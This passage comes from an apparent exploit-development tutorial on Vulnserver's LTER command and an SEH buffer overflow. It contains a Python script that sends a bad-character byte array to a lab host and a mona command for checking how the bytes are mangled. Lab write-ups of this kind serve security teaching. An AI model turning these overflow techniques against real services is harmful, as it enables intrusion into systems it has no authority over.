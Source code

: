 <div class="imgblock">

![ANSI 2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-lter-seh/bytearray2_xhuyku.webp)

</div>

Now we can inject that array into our exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

EXCLUDE = ('0x0', '0xa', '0xd')

BADCHARS = bytes(bytearray([x for x in range(256) if hex(x) not in EXCLUDE]))

PAYLOAD = (
    b'LTER .' +
    BADCHARS +
    b'A' * (3554 - len(BADCHARS)) +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

Now, run this updated exploit to check how the `LTER` command treats all
the chars:

<div class="imgblock">

![Checking bad chars](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331201/blog/vulnserver-lter-seh/check-badchars1_ubzeez.gif)

</div>

We can see several things here:

1. Our payload of bad chars was successfully injected after the `LTER
    .` string.

2. It seems that all the chars, from `0x01` to `0x7f` were successfully
    injected.

3. When the bytearray reached the char `0x80`, it was converted to
    `0x01`, then `0x81` to `0x02`, and so on.

There is a more graphical way to check that, using `mona` once again:

``` console
!mona cmp -f C:\mona\vulnserver\bytearray.bin -a <badchars memory address>
```
